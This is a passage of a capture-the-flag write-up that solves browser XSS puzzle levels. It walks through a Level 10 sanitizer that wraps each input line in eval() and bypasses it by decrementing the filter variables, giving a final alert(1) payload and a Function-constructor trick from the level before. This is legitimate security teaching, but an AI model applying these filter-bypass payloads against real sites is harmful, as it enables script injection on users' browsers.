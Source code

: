 ```javascript

[][ᘳ][ᘳ](ᘎ)() // []['constructor']['constructor']('alert(1)')() == Function('alert(1)')
```
![]({{ page.img_dir | relative_url }}/xss9.png)
![]({{ page.img_dir | relative_url }}/xss10.png)

# Level 10
Sanitizer : 
```javascript
function sanitize(input) {
    // sanitization!
    const sanitized = input
        .replace(/[<>="&%$#\\/]/g, '')
        .split('\n')
        .map(row => 'eval(sanitizeAgainAgain(sanitizeAgain("' + row + '")))')
        .join('\n');
    return '  \x3Cscript>\n' + sanitized + '\n  \x3C/script>'
}

var bad = ['<', '>', '&', '%', '$', '#', '[', ']', '|', '{', '}', ';', '\\', '/', ',', '"', '\'', '=', '`', '(', ')'];

function sanitizeAgain(input) {
    // more sanitization!
    const sanitized = input.split('').filter(c => !bad.includes(c)).join('');
    return sanitized;
}

var regex = /[^A-z.\-]/g

function sanitizeAgainAgain(input) {
    // even more sanitization!
    const sanitized = input.replace(regex, '');
    return sanitized;
}
```
In this layer , we have multiple functions that sanitize the input, but as we can see our input is passed to the eval() function and in all cases `'eval is evil'` \
Analyzing the source code we notice that a new `eval(sanitizeAgain(sanitizeAgain("' + INPUT + '")` is generated for each line of input, which means that we can simply enter each part of code separated by a newline.\
`bad` and `regex` are declared variables and the `-` character is not filtered out so we can use it to convert `regex` to `NaN` : `regex--`
![]({{ page.img_dir | relative_url }}/xss11.png) 
We can do the same thing on the length of the `bad` array by removing the characters we are interested in (in this case `()`) 
![]({{ page.img_dir | relative_url }}/xss12.png) 

so our final payload will be : 
```javascript
regex--
bad.length--
bad.length--
alert(1)
```
![]({{ page.img_dir | relative_url }}/xss13.png) 

# Level Bonus 1 ,2 ,3 